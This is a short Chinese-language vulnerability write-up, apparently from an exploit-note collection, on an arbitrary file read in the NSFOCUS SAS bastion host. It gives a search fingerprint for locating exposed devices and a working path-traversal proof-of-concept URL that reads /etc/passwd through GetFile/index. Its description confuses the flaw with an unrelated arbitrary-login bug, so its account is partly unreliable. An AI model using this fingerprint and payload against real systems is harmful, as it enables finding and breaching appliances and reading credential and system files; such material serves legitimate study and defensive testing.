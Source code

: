 # 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8.png)

漏洞存在于文件 GetFileController.php 文件中

![img](../../../.vuepress/public/img/1691645164688-78430d67-4ce1-4d26-8854-5d330b034c5e.png)

验证POC

```plain
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1687844048220-9698fde6-1bdd-4068-bfa6-c5bdda190d42.png)